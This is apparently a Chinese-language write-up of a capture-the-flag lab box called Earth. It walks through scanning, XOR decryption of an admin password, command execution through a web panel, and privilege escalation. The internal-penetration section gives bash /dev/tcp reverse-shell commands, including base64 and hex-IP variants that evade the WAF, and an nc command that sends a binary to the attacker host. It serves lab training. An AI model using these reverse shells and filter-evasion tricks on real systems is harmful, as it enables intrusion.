



**靶机描述**
```
Description
Difficulty: Easy

Earth is an easy box though you will likely find it more challenging than "Mercury" in this series and on the harder side of easy, depending on your experience. There are two flags on the box: a user and root flag which include an md5 hash. This has been tested on VirtualBox so may not work correctly on VMware. Any questions/issues or feedback please email me at: SirFlash at protonmail.com, though it may take a while for me to get back to you.


```


**环境配置**
ova导入后改NAT

**靶机ip**: 192.168.136.167


## 信息收集

nmap 
```
Starting Nmap 7.91 ( https://nmap.org ) at 2024-05-21 21:52 CST
Nmap scan report for 192.168.136.167
Host is up (0.49s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey: 
|   256 5b:2c:3f:dc:8b:76:e9:21:7b:d0:56:24:df:be:e9:a8 (ECDSA)
|_  256 b0:3c:72:3b:72:21:26:ce:3a:84:e8:41:ec:c8:f8:41 (ED25519)
80/tcp  open  http     Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
|_http-title: Bad Request (400)
443/tcp open  ssl/http Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
|_http-title: Bad Request (400)
| ssl-cert: Subject: commonName=earth.local/stateOrProvinceName=Space
| Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.local
| Not valid before: 2021-10-12T23:26:31
|_Not valid after:  2031-10-10T23:26:31
| tls-alpn: 
|_  http/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.00 seconds

```


直接访问显示400 Bad Quests 需要DNS绑定域名
修改HOST文件:
192.168.136.167 earth.local terratest.earth.local

然后访问 earth.local即可


继续信息收集, dirsearch对http和https分别扫目录

earth.local 扫出来 /admin/login

terratest.earth.local扫出来 robots.txt

## web服务器渗透
根据前面收集的信息，先看earth.local的/admin/login 是一个登录界面 没有任何泄露的密码信息
猜测username是admin 剩下就是找密码

继续看terratest.earth.local的/robots.txt (注意要加https头)
显然最后一个/testingnotes.*可疑
访问/testingnotes.txt

大意就是采用了xor加密，然后给了`testdata.txt` 以及登录账号是terra

查看 /testdata.txt
再查看 earth.local首页下面的previous_Messages
三组key分别尝试后发现最后一组xor解密能得到有意义信息

写出解密脚本:
```py
import binascii

key="2402111b1a0705070a41000a431a000a0e0a0f04104601164d050f070c0f15540d1018000000000c0c06410f0901420e105c0d074d04181a01041c170d4f4c2c0c13000d430e0e1c0a0006410b420d074d55404645031b18040a03074d181104111b410f000a4c41335d1c1d040f4e070d04521201111f1d4d031d090f010e00471c07001647481a0b412b1217151a531b4304001e151b171a4441020e030741054418100c130b1745081c541c0b0949020211040d1b410f090142030153091b4d150153040714110b174c2c0c13000d441b410f13080d12145c0d0708410f1d014101011a050d0a084d540906090507090242150b141c1d08411e010a0d1b120d110d1d040e1a450c0e410f090407130b5601164d00001749411e151c061e454d0011170c0a080d470a1006055a010600124053360e1f1148040906010e130c00090d4e02130b05015a0b104d0800170c0213000d104c1d050000450f01070b47080318445c090308410f010c12171a48021f49080006091a48001d47514c50445601190108011d451817151a104c080a0e5a"
testdata="According to radiometric dating estimation and other evidence, Earth formed over 4.5 billion years ago. Within the first billion years of Earth's history, life appeared in the oceans and began to affect Earth's atmosphere and surface, leading to the proliferation of anaerobic and, later, aerobic organisms. Some geological evidence indicates that life may have arisen as early as 4.1 billion years ago."

a = binascii.b2a_hex(testdata.encode()).decode()
b = binascii.a2b_hex(hex(int(a,16) ^ int(key,16))[2:]).decode()
print(b)

```

发现是重复的密文 `earthclimatechangebad4humans`
尝试 terra earthclimatechangebad4humans 登录 (earth.local/admin/login)


然后进入/admin页面 发现是可执行命令
先找找flag (拖时间 楽)
`find / -name *flag*`

发现/var/earth_web/user_flag.txt文件
cat 查看 得到user_flag


## 内网渗透
为进一步渗透
尝试反弹shell
`/bin/bash -i >& /dev/tcp/192.168.136.146/9999 0>&1`
发现 Remote connections are forbidden. 有waf

尝试base64编码后执行 (bp抓包 直接放的话超字数限制了)
`bash -c '{echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTM2LjE0Ni85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}'`

发现怎么都弹不过去
可以继续换姿势
用 IP16进制变换绕过
bash -i >& /dev/tcp/0xc0.0xa8.0x88.0x92/9999 0>&1

成功得到shell

查看是否存在python环境
whereis pyhton
发现有python环境 那么python起一个交互shell

python -c 'import pty;pty.spawn("/bin/bash")'

### 提权

uname -a查看内核版本
没有可用信息


SUID提权
find / -user root -perm -4000 -print 2>/dev/null

发现pkexec有sudo权限
尝试利用 `cve-2021-4034` 

（演示一遍）

但靶机没有权限下载

继续看其他文件 发现/usr/bin/reset_root

尝试运行
reset_root
发现报错

我们接下来想要用strace调试 但是靶机上没有strace命令
所以用nc传到我们本地攻击机进行调试
kali:
nc -nlvp 1234 >reset_root


靶机:
nc 192.168.136.146 1234 < /usr/bin/reset_root



此时就把reset_root传到kali上了


然后kali本地调试
对文件加权限后 strace ./reset_root


发现是对应目录下没有这三个文件 那么我们在靶机上touch创建即可
然后再运行 就成功执行了reset_root 将密码修改为Earth


